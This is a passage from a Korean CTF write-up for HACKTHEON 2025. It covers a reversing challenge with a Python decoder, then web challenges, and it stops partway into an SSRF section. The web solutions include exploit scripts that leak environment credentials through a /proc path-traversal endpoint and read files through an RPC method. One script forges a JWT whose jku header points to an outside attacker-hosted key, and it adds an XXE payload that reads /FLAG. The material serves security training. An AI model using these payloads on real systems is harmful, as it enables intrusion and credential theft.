  v7 = ((v7 & 7) << 18) | (v10 << 6) | table[v6 + 3] & 0x3F;
  if ( v7 != 0x110000 )
  {
    v6 += 4LL;
    goto LABEL_4;
  }
LABEL_12:
  v11 = v5 % 0x19;
  v12 = v11 + 1;
  *&v27 = 0LL;
  *(&v27 + 1) = 1LL;
  v28 = 0LL;
  v13 = &a2[a3];
  v14 = v11 + 34;
  v15 = 0LL;
  v16 = v12;
  do
  {
    while ( 1 )
    {
      v17 = *a2;
      if ( (v17 & 0x80u) != 0 )
      {
        v18 = v17 & 0x1F;
        v19 = a2[1] & 0x3F;
        if ( v17 <= 0xDFu )
        {
          a2 += 2;
          v17 = v19 | (v18 << 6);
          if ( v17 >= 0x80 )
            goto LABEL_39;
        }
        else
        {
          v20 = (v19 << 6) | a2[2] & 0x3F;
          if ( v17 < 0xF0u )
          {
            a2 += 3;
            v17 = (v18 << 12) | v20;
            if ( v17 >= 0x80 )
            {
LABEL_39:
              if ( v15 == v27 )
                sub_55000(&v27, &off_5F738);
              *(*(&v27 + 1) + v15) = 63;
              goto LABEL_14;
            }
          }
          else
          {
            v21 = a2[3];
            a2 += 4;
            v17 = ((v18 & 7) << 18) | (v20 << 6) | v21 & 0x3F;
            if ( v17 >= 0x80 )
              goto LABEL_39;
          }
        }
      }
      else
      {
        ++a2;
      }
      if ( v17 != 127 && v17 >= 0x21 )
      {
        v22 = v16 + v17;
        if ( v22 <= 0x7Eu )
        {
          v23 = v27;
        }
        else
        {
          LOBYTE(v22) = v22 - 94;
          v23 = v27;
          if ( (v22 & 0x80u) != 0 )
            break;
        }
        goto LABEL_36;
      }
      v24 = v17 - 94;
      if ( v17 < 0x5E )
        v24 = v17;
      v25 = v14 + v24;
      LOBYTE(v22) = v25 - 94;
      if ( v25 < 0x7Fu )
        LOBYTE(v22) = v25;
      v23 = v27;
      if ( (v22 & 0x80u) != 0 )
        break;
LABEL_36:
      if ( v15 == v23 )
        sub_55000(&v27, &off_5F738);
      *(*(&v27 + 1) + v15) = v22;
LABEL_14:
      v28 = ++v15;
      if ( a2 == v13 )
        goto LABEL_42;
    }
    if ( v23 - v15 <= 1 )
    {
      sub_18580(&v27, v15, 2LL, 1LL, 1uLL);
      v15 = v28;
    }
    *(*(&v27 + 1) + v15) = (v22 >> 6) + ((v22 & 0x3F) << 8) - 32576;
    v15 = v28 + 2;
    v28 += 2LL;
  }
  while ( a2 != v13 );
LABEL_42:
  a1 = v29;
  v29[3] = v28;
  *(a1 + 1) = v27;
LABEL_44:
  *a1 = 2LL;
  return a1;
}
```

##### Decode
```c
_QWORD *__fastcall decode_(_QWORD *a1, unsigned __int8 *a2, __int64 a3)
{
  unsigned int v5; // r12d
  __int64 v6; // rcx
  int v7; // edx
  int v8; // esi
  int v9; // r8d
  int v10; // edi
  unsigned int v11; // r12d
  char v12; // r13
  unsigned __int8 *v13; // r14
  unsigned __int8 v14; // r12
  unsigned __int64 v15; // rbp
  unsigned int v16; // eax
  int v17; // ecx
  int v18; // esi
  int v19; // edx
  unsigned __int8 v20; // al
  char v21; // bl
  unsigned __int8 v22; // bl
  __int128 v24; // [rsp+8h] [rbp-50h] BYREF
  unsigned __int64 v25; // [rsp+18h] [rbp-40h]
  _QWORD *v26; // [rsp+20h] [rbp-38h]

  if ( !a3 )
  {
    a1[1] = 0LL;
    a1[2] = 1LL;
    a1[3] = 0LL;
LABEL_38:
    *a1 = 2LL;
    return a1;
  }
  v26 = a1;
  v5 = 0;
  v6 = 0LL;
  while ( 1 )
  {
    v7 = table[v6];
    if ( (v7 & 0x80u) != 0 )
      break;
    ++v6;
LABEL_4:
    v5 += v7;
    if ( v6 == 23 )
      goto LABEL_12;
  }
  v8 = v7 & 0x1F;
  v9 = table[v6 + 1] & 0x3F;
  if ( v7 <= 0xDFu )
  {
    v6 += 2LL;
    v7 = v9 | (v8 << 6);
    goto LABEL_4;
  }
  v10 = (v9 << 6) | table[v6 + 2] & 0x3F;
  if ( v7 < 0xF0u )
  {
    v6 += 3LL;
    v7 = (v8 << 12) | v10;
    goto LABEL_4;
  }
  v7 = ((v7 & 7) << 18) | (v10 << 6) | table[v6 + 3] & 0x3F;
  if ( v7 != 1114112 )
  {
    v6 += 4LL;
    goto LABEL_4;
  }
LABEL_12:
  v11 = v5 % 0x19;
  v12 = ~v11;
  *&v24 = 0LL;
  *(&v24 + 1) = 1LL;
  v25 = 0LL;
  v13 = &a2[a3];
  v14 = v11 + 34;
  v15 = 0LL;
  while ( 1 )
  {
    v16 = *a2;
    if ( (v16 & 0x80u) != 0 )
    {
      v17 = v16 & 0x1F;
      v18 = a2[1] & 0x3F;
      if ( v16 <= 0xDFu )
      {
        a2 += 2;
        v16 = v18 | (v17 << 6);
        if ( v16 > 0x7F )
          break;
      }
      else
      {
        v19 = (v18 << 6) | a2[2] & 0x3F;
        if ( v16 < 0xF0u )
        {
          a2 += 3;
          v16 = (v17 << 12) | v19;
          if ( v16 > 0x7F )
            break;
        }
        else
        {
          v20 = a2[3];
          a2 += 4;
          v16 = ((v17 & 7) << 18) | (v19 << 6) | v20 & 0x3F;
          if ( v16 > 0x7F )
            break;
        }
      }
    }
    else
    {
      ++a2;
    }
    if ( v16 < 0x21 || v16 == 127 )
      break;
    v21 = v16 + 94;
    if ( v14 <= v16 )
      v21 = v16;
    v22 = v12 + v21;
    if ( (v22 & 0x80u) != 0 )
    {
      if ( v24 - v15 <= 1 )
      {
        sub_18580(&v24, v15, 2LL, 1LL, 1uLL);
        v15 = v25;
      }
      *(*(&v24 + 1) + v15) = (v22 >> 6) + ((v22 & 0x3F) << 8) - 32576;
      v15 = v25 + 2;
      v25 += 2LL;
      if ( a2 == v13 )
      {
LABEL_37:
        a1 = v26;
        v26[3] = v25;
        *(a1 + 1) = v24;
        goto LABEL_38;
      }
    }
    else
    {
      if ( v24 == v15 )
        sub_55000(&v24, &off_5F738);
      *(*(&v24 + 1) + v15++) = v22;
      v25 = v15;
      if ( a2 == v13 )
        goto LABEL_37;
    }
  }
  a1 = v26;
  *v26 = 1LL;
  a1[1] = 0LL;
  a1[2] = 1LL;
  a1[3] = 0LL;
  if ( v24 )
    free_(*(&v24 + 1), v24, 1LL);
  return a1;
}
```

문제 지문에서 encode 된 값이 `4658hg76<h85eed73ihghidi8ehf<78;`라고 했으니 이를 decode 로직에 맞게 수행해주면 플래그를 획득할 수 있습니다.

##### ex.py
```py
#!/usr/bin/env python3
PRINT_START, PRINT_END = 0x21, 0x7E
PRINT_RANGE = PRINT_END - PRINT_START + 1

KEY = "bridge_default_key_2025"

def _calc_shift(key: str = KEY) -> int:
    return (sum(map(ord, key)) % 25) + 1

SHIFT = _calc_shift()
ALT_SHIFT = (SHIFT - 1) + 34


def decode_byte(enc: int) -> int:
    if PRINT_START <= enc <= PRINT_END:
        dec = enc - SHIFT
        if dec < PRINT_START:
            dec += PRINT_RANGE
        if encode_byte(dec) == enc:
            return dec
    if 0x24 <= enc <= 0x38:
        return enc - ALT_SHIFT
    if enc == 0x45:
        return 0x7F
    return 0x3F


def encode_byte(dec: int) -> int:
    if dec != 0x7F and PRINT_START <= dec <= PRINT_END:
        new = dec + SHIFT
        if new > PRINT_END:
            new -= PRINT_RANGE
        return new
    base = dec if dec < 0x5E else dec - PRINT_RANGE
    return (ALT_SHIFT + base) & 0x7F


def decode(data: str | bytes, key: str = KEY) -> str:
    global SHIFT, ALT_SHIFT
    SHIFT = _calc_shift(key)
    ALT_SHIFT = (SHIFT - 1) + 34

    if isinstance(data, bytes):
        data = data.decode('latin-1')

    decoded_bytes = bytearray()
    for ch in data:
        decoded_bytes.append(decode_byte(ord(ch)))

    return decoded_bytes.decode('latin-1', errors="replace")

if __name__ == "__main__":
    enc_example = "4658hg76<h85eed73ihghidi8ehf<78;"
    print(decode(enc_example))
```

flag : 1325ed439e52bba40fedefaf5bec9458

### Web

#### frontdoor-1
```rs
// part of main.rs
#[tokio::main]
async fn main() -> std::result::Result<(), anyhow::Error> {
    let (backend_host, backend_port) = get_host_port();

    let log_path = PathBuf::from(consts::LOG_DIR).join(consts::LOG_FILE);
    if log_path.exists() {
        if let Err(err) = tokio::fs::remove_file(log_path).await {
            tracing::error!("Failed to remove log file: {}", err);
        }
    }

    let file_appender =
        RollingFileAppender::new(Rotation::NEVER, consts::LOG_DIR, consts::LOG_FILE);
    let (non_blocking, _guard) = tracing_appender::non_blocking(file_appender);
    tracing_subscriber::fmt()
        .with_writer(non_blocking)
        .with_ansi(false)
        .with_env_filter(EnvFilter::new("backend=DEBUG"))
        .init();

    let session_store = MemoryStore::default();
    let session_layer = SessionManagerLayer::new(session_store)
        .with_secure(false)
        .with_http_only(false);

    let app = Router::new()
        .route("/api", get(handlers::get_root_handler))
        .route("/api/health-check", get(handlers::get_health_check_handler))
        .route("/api/logs", get(handlers::get_logs_handler))
        .route("/api/monitor/{info}", get(handlers::get_monitor_handler))
        .route("/api/signin", post(handlers::post_signin_handler))
        .route(
            "/api/flag",
            get(handlers::get_flag_handler).layer(middleware::from_fn(middlewares::authorize)),
        )
        .layer(middleware::from_fn(middlewares::tracing_session_id))
        .layer(middleware::from_fn(middlewares::set_session_expiry))
        .layer(session_layer);

    let addr = SocketAddr::from((backend_host, backend_port));
    tracing::info!("Backend running on {:?}", addr);

    let listener = tokio::net::TcpListener::bind(&addr).await?;
    axum::serve(listener, app).await?;

    Ok(())
}

// flag.rs
use axum::{http::StatusCode, response::IntoResponse};
use tokio::fs;

pub async fn get_flag_handler() -> impl IntoResponse {
    match fs::read_to_string("flag").await {
        Ok(content) => (StatusCode::OK, content).into_response(),
        Err(err) => {
            tracing::error!("Failed to read flag file: {}", err);
            (
                StatusCode::INTERNAL_SERVER_ERROR,
                "Failed to retrieve flag".to_string(),
            )
                .into_response()
        }
    }
}

```

main함수를 보면, `/api/flag`로 요청을 보냈을 때, 권한이 인증된 유저라면 `get_flag_handler` 함수를 통해 flag를 획득할 수 있음을 알 수 있습니다. 그러나 로그인할 수 있는 user의 id 및 password는 서버의 환경변수에 임의의 값으로 저장되어있어 로그인을 할 수 없습니다.

취약점은 monitor 기능에 존재했습니다.

```rs
pub async fn get_monitor_handler(Path(info): Path<String>) -> impl IntoResponse {
    let file_path = match PathBuf::from("/proc")
        .join(alias(&info).unwrap_or(info.clone()))
        .canonicalize()
    {
        Ok(path) => path,
        Err(e) => {
            tracing::error!("Error canonicalizing path: {}", e);
            return (StatusCode::BAD_REQUEST, "Invalid parameter").into_response();
        }
    };

    let is_in_proc = file_path.starts_with("/proc");
    let is_file = file_path.is_file();

    if !is_in_proc || !is_file {
        return (StatusCode::BAD_REQUEST, "Invalid argument").into_response();
    }

    let comps: Vec<_> = file_path.components().collect();
    if comps.len() > 4 {
        return (StatusCode::BAD_REQUEST, "Invalid argument").into_response();
    }

    if comps.len() == 4
        && comps.get(2) != Some(&Component::Normal(OsStr::new(&process::id().to_string())))
    {
        return (StatusCode::BAD_REQUEST, "Invalid argument").into_response();
    }

    let msg = match fs::read_to_string(&file_path).await {
        Ok(content) => parse_content(&info, &content).await,
        Err(err) => {
            tracing::error!("Failed to read file '{}': {}", file_path.display(), err);
            return (StatusCode::BAD_REQUEST, "Invalid argument").into_response();
        }
    };

    (StatusCode::OK, msg).into_response()
}
```

해당 기능은 인자로 넘겨받은 info를 `/proc`라는 경로 뒤에 이어붙여 해당 파일을 읽어들이는 것을 알 수 있습니다. 파일을 정상적으로 읽었다면 `parse_content` 함수를 통해 파일을 parsing합니다.

```rs
async fn parse_content(info: &str, content: &str) -> String {
    match info {
        "uptime" => parse_uptime(content),
        "idle-time" => parse_idle_time(content),
        "cpu" => parse_cpu(content),
        "mem" => parse_mem(content),
        _ => {
            tracing::warn!("Unknown info type: '{}', content '{}'", info, content);
            String::new()
        }
    }
}
```

이때, 정해진 4개의 whitelist 바깥의 값을 입력한다면 오류를 발생시키고 해당 오류를 파일 경로, 내용과 함께 logging합니다. 그러나 이 log는 `log`기능에서 그냥 읽어올 수 있습니다.

즉, `monitor`기능을 이용하여 `/proc/self/environ`을 읽어오도록 요청하고, 적절히 log level을 맞춰서 log를 받아오는 requests를 요청하면 환경변수를 읽어와서 user로 login하여 flag를 획득할 수 있습니다.

##### ex.py
```py
import requests

# url = 'http://localhost:8080/'
url = 'http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:58709/'


'''
GUEST_ID=s3cre7Guest1
BACKEND_PORT=3000
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GUEST_PWD=G#3stAcc3ss!25
PWD=/app
'''
GUEST_ID='s3cre7Guest1'
GUEST_PWD='G#3stAcc3ss!25'


headers = {'Content-Type': 'application/json'}
# data = {'username':'guest', 'password': 'guest'}
data = {'username':GUEST_ID, 'password': GUEST_PWD}

levels = ['error', 'warn', 'info', 'debug', '']

session = requests.Session()

# #stage 1
# res = session.get(url + f'api/monitor/self%2fenviron')
# print(res.status_code)
# print(res.text)
# res = session.get(url + f'api/logs?level={levels[3]}')
# print(res.status_code)
# print(res.text)

#stage 2
# res = session.post(url + 'api/signin', headers=headers, json=data)
# print(res.status_code)
# print(res.text)
# res = session.get(url + 'api/flag')
# print(res.status_code)
# print(res.text)
```

flag: `FLAG{Me7Hod_Ch4iN1nG_1s_5o_COoo0Oo00oO0ol}`

#### frontdoor-2
```rs
#[tokio::main]
async fn main() -> std::result::Result<(), anyhow::Error> {
    let (backend_host, backend_port) = get_host_port();

    let log_path = PathBuf::from(consts::LOG_DIR).join(consts::LOG_FILE);
    if log_path.exists() {
        if let Err(err) = tokio::fs::remove_file(log_path).await {
            tracing::error!("Failed to remove log file: {}", err);
        }
    }

    let file_appender =
        RollingFileAppender::new(Rotation::NEVER, consts::LOG_DIR, consts::LOG_FILE);
    let (non_blocking, _guard) = tracing_appender::non_blocking(file_appender);
    tracing_subscriber::fmt()
        .with_writer(non_blocking)
        .with_ansi(false)
        .with_env_filter(EnvFilter::new("backend=DEBUG"))
        .init();

    let state = Arc::new(AppState {
        dev_tools_mutex: Mutex::new(()),
    });

    let session_store = MemoryStore::default();
    let session_layer = SessionManagerLayer::new(session_store)
        .with_secure(false)
        .with_http_only(false);

    let app = Router::new()
        .route("/api", get(handlers::get_root_handler))
        .route("/api/health-check", get(handlers::get_health_check_handler))
        .route("/api/logs", get(handlers::get_logs_handler))
        .route("/api/monitor/{info}", get(handlers::get_monitor_handler))
        .route("/api/signin", post(handlers::post_signin_handler))
        .route(
            "/api/rpc",
            post(handlers::post_rpc_handler)
                .layer(middleware::from_fn_with_state(
                    state.clone(),
                    middlewares::ensure_dev_tools,
                ))
                .layer(middleware::from_fn(authenticate)),
        )
        .layer(middleware::from_fn(middlewares::tracing_session_id))
        .layer(middleware::from_fn(middlewares::set_session_expiry))
        .layer(session_layer)
        .with_state(state);

    let addr = SocketAddr::from((backend_host, backend_port));
    tracing::info!("Backend running on {:?}", addr);

    let listener = tokio::net::TcpListener::bind(&addr).await?;
    axum::serve(listener, app).await?;

    Ok(())
}

```
전체적으로 frontdoor-1 문제와 코드는 유사하지만, flag기능이 사라지고 rpc 기능이 새로 도입됐습니다.

```rs
#[derive(Deserialize, Serialize)]
pub struct PostRpcBody {
    method: String,
    params: Vec<Parameter>,
}

async fn append_session_dir(session: &Session, body: &mut PostRpcBody) -> bool {
    let dir = match session.get::<PathBuf>("dir").await {
        Ok(Some(dir)) => dir,
        _ => return false,
    };

    let method = body.method.as_str();
    if method == "close" || method == "read" || method == "write" || method == "exit" {
        return true;
    }

    if body.params.is_empty() || body.params[0].param_type != 1 {
        return false;
    }

    let path = match &body.params[0].value {
        ParameterValue::Int(_) => return false,
        ParameterValue::Str(s) => dir.join(s),
    };

    if !path.is_absolute() || path.is_symlink() {
        return false;
    }

    body.params[0].value = ParameterValue::Str(path.to_str().unwrap().to_string());

    true
}

pub async fn post_rpc_handler(
    session: Session,
    Json(mut body): Json<PostRpcBody>,
) -> impl IntoResponse {
    let port = match session.get::<u16>("port").await {
        Ok(Some(port)) => port,
        _ => {
            tracing::error!("Failed to get port");
            return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
        }
    };

    if !append_session_dir(&session, &mut body).await {
        tracing::error!("Failed to append session dir");
        return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
    }

    let mut stream = match TcpStream::connect(format!("127.0.0.1:{}", port)).await {
        Ok(stream) => stream,
        Err(err) => {
            tracing::error!("Failed to connect dev_tools: {}", err);
            return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
        }
    };

    let json_data = serde_json::to_string(&body).unwrap();

    if let Err(err) = stream.write_all(json_data.as_bytes()).await {
        tracing::error!("Failed to send data: {}", err);
        return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
    };

    let mut buffer = Vec::new();
    if let Err(err) = stream.read_to_end(&mut buffer).await {
        tracing::error!("Failed to receive data: {}", err);
        return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
    }

    let resp = match String::from_utf8(buffer) {
        Ok(resp) => resp,
        Err(err) => {
            tracing::error!("Failed to convert response: {}", err);
            return (StatusCode::INTERNAL_SERVER_ERROR, "Failed to call RPC").into_response();
        }
    };

    (StatusCode::OK, resp).into_response()
}
```

기능을 살펴보면, `close`, `read`, `write`, `exit` 메서드를 제외한 다른 메서드라면 session에 저장한 후 `dev_tools` 기능으로 호출합니다.

허나 여기서 file io에 관련한 모든 기능을 제한한 것처럼 보이지만 `dev_tools`에는 `read_file`이라는 메서드 또한 존재합니다(...). 때문에 해당 메서드를 이용하면 단순히 request를 전송하는 것만으로도 frontdoor-1 문제와 유사하게 flag를 획득할 수 있습니다. (Unintended solution으로 예상됩니다.) 

##### ex.py
```py
import requests

# url = 'http://localhost:8080/'
url = 'http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:42527/'


'''
GUEST_ID=s3cre7Guest1
BACKEND_PORT=3000
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GUEST_PWD=G#3stAcc3ss!25
PWD=/app
'''
GUEST_ID='s3cre7Guest1'
GUEST_PWD='G#3stAcc3ss!25'

levels = ['error', 'warn', 'info', 'debug', '']

session = requests.Session()

# #stage 1
# res = session.get(url + f'api/monitor/self%2fenviron')
# print(res.status_code)
# print(res.text)
# res = session.get(url + f'api/logs?level={levels[3]}')
# print(res.status_code)
# print(res.text)

# #stage 2
headers = {'Content-Type': 'application/json'}
# data = {'username':'guest', 'password': 'guest'}
data = {'username':GUEST_ID, 'password': GUEST_PWD}

res = session.post(url + 'api/signin', headers=headers, json=data)
print(res.status_code)
print(res.text)

rpc_data = {"method":"read_file","params":[{"type":1,"value":"/app/flag"}]}
res = session.post(url + 'api/rpc', headers=headers, json=rpc_data)
print(res.status_code)
print(res.text)
```

flag: `FLAG{r4C3_c0nDi71oN5_Ev3ryWhEre}`

#### Forgotten Past

문제명에서 robots.txt 존재하는 것을 유추할 수가 있는데, 들어가보면 `/old_site/` 경로가 Disallow 되어 있는 것을 알 수 있습니다.

```
User-agent: *
Disallow: /old_site/
```



`/old_site/` 경로로 들어가서 소스코드를 확인하면 `/login.html`이 존재하는 것을 알 수 있습니다.



`/login.html`의 소스코드를 보면 브라우저단의 javascript를 통해 로그인을 처리하는 것을 알 수 있습니다. 또한, 로그인에 성공하면 `a6b49f3b955fef1ee136033a83382e6c.html`로 리다이렉션 합니다.



flag: `FLAG{d0n'7_f0rg37_7h3_0ld_r0807}`

#### Who's the admin now?



처음 접속하면 로그인 페이지랑 회원가입 페이지가 존재합니다. 다만, 어드민 권한이 없으면 성공적으로 로그인이 불가능 합니다.



로그인을 할때, JWT 토큰을 생성해서 인증을 시도하는데 JWT Header 부분에 jku를 입력받는 것을 알 수 있습니다. jku는 어떤 public key를 사용할지에 관한 키인데, jku 값을 백엔드에서 따로 필터링을 하지 않아, 공격자 서버의 jwk.json로 설정하면 공격자가 생성한 key pair로 JWT를 검증합니다.

```py
from jose import jwt
import json
import base64
import time
import requests

# Load the private key from private-jwk.json
with open('private-jwk.json', 'r') as f:
    private_jwk = json.load(f)

# Define an XML string for the 'user_info' claim with admin privileges
xml_admin = '<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<user>\n<user_id>ipwn@i.pwn</user_id>\n<username>ipwn</username>\n<role>user</role>\n</user>\n'

# Define the JWT payload with admin privileges
payload = {
    "user_info": xml_admin,
    "user_role": "admin",
    "exp": int(time.time()) + 3600,  # Expires in 1 hour
    "iat": int(time.time())          # Issued now
}

# Define the JWT headers
headers = {
    "kid": "server-key",  # Key ID to match the original JWK
    "alg": "RS256",
    "jku": "http://134.185.111.155/jwk.json",
    "cty": "application/json",
    "typ": "JWT"
}

# Sign the token using RS256 with the private key
token = jwt.encode(payload, private_jwk, algorithm='RS256', headers=headers)

s = requests.Session()

url = "http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:28145"

r = s.get(url + "/")

s.cookies.set("token", token)

r = s.get(url + "/")

print(r.text)

# Print the signed token
# print(token)
```



이 상태로 `/mypage` 경로에 접근하려고 하면 `{"error":"Invalid content type, Is not application/xml"}` 오류 때문에 불가능한 것을 알 수 있습니다. 간단하게 `cty`만 `application/xml`로 바꿔주면 mypage에 접근 가능합니다.

이후에 xxe를 통해 `/flag`를 읽으면 플래그를 획득할 수 있습니다. 최종 풀이는 다음과 같습니다.

```py
from jose import jwt
import json
import base64
import time
import requests

# Load the private key from private-jwk.json
with open('private-jwk.json', 'r') as f:
    private_jwk = json.load(f)

# Define an XML string for the 'user_info' claim with admin privileges
xml_admin = '<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE replace [<!ENTITY example SYSTEM "file:///FLAG"> ]>\n<user>\n<user_id>ipwn@i.pwn</user_id>\n<username>a</username>\n<role>&example;</role>\n</user>\n'

# Define the JWT payload with admin privileges
payload = {
    "user_info": xml_admin,
    "user_role": "admin",
    "exp": int(time.time()) + 3600,  # Expires in 1 hour
    "iat": int(time.time())          # Issued now
}

# Define the JWT headers
headers = {
    "kid": "server-key",  # Key ID to match the original JWK
    "alg": "RS256",
    "jku": "http://134.185.111.155/jwk.json",
    "cty": "application/xml",
    "typ": "JWT"
}

# Sign the token using RS256 with the private key
token = jwt.encode(payload, private_jwk, algorithm='RS256', headers=headers)

s = requests.Session()

url = "http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:28145"

r = s.get(url + "/")

s.cookies.set("token", token)

r = s.get(url + "/mypage")
print(r.status_code)
print(r.text)

# Print the signed token
# print(token)
```

flag: `FLAG{jku_4nd_xxe_4r3_d4ng3r0u5}`

#### Invalid OTP

처음 접속하면 user_id, password를 입력 받는 로그인 페이지가 주어집니다.



`http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:39406/image_render?url=https://cdn.jsdelivr.net/gh/ott3r07/nexora@51d875a2dcc807005a9f9f416c1636bf686e7405/logo.png`

`image_render` 경로를 통해서 이미지 등을 불러오는데, google 같은 url들을 넣어보면 ssrf가 가능한 것을 알 수 있습니다.

`file://` 등을 통해 로컬 파일들을 읽어보려고 하면 `Blocked by keyword filter.` 혹은 `Access to local addresses is not allowed` 등으로 막히는 것을 알 수 있습니다.

